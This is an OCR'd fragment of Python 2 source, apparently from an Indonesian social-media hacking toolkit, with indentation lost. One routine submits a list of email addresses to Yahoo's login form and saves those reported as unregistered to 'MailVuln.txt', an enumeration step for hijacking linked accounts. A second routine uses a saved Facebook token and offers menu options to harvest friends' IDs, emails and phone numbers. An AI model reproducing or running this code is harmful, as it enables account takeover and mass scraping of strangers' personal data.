 mpsh = []
jml = 0
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
save = open('MailVuln.txt', 'w')
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '\x1b[1;91m[?] \x1b[1;97mStatus \x1b[1;91m: \x1b[1;97mRed[\x1b[1;92m' + vulnot + '\x1b[1;97m] Green[\x1b[1;92m' + vuln + '\x1b[1;97m]'
print
mail = open(files, 'r').readlines()
for pw in mail:
mail = pw.replace('\n', '')
jml += 1
mpsh.append(jml)
yahoo = re.compile('@.*')
otw = yahoo.search(mail).group()
if 'yahoo.com' in otw:
br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
br._factory.is_html = True
br.select_form(nr=0)
br['username'] = mail
klik = br.submit().read()
jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
try:
pek = jok.search(klik).group()
except:
print '\x1b[1;91m ' + mail
continue

if '"messages.ERROR_INVALID_USERNAME">' in pek:
save.write(mail + '\n')
print '\x1b[1;92m ' + mail
else:
print '\x1b[1;91m ' + mail

print '\n\x1b[1;91m[+] \x1b[1;97mFinish'
print '\x1b[1;91m[+] \x1b[1;97mSaved \x1b[1;91m:\x1b[1;97m MailVuln.txt'
save.close()
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_yahoo()


def grab():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()

os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '║-> \x1b[1;37;40m1. Get ID From Friends'
print '║-> \x1b[1;37;40m2. Get Friends ID From Friends'
print '║-> \x1b[1;37;40m3. Get ID From GRUP'
print '║-> \x1b[1;37;40m4. Get Friends Email'
print '║-> \x1b[1;37;40m5. Get Friends Email From Friends'
print '║-> \x1b[1;37;40m6. Get Phone From Friends'
print '║-> \x1b[1;37;40m7. Get Friend\'s Phone From Friends'
print '║-> \x1b[1;31;40m0. Back'
print '\x1b[1;37;40m║'
grab_pilih()
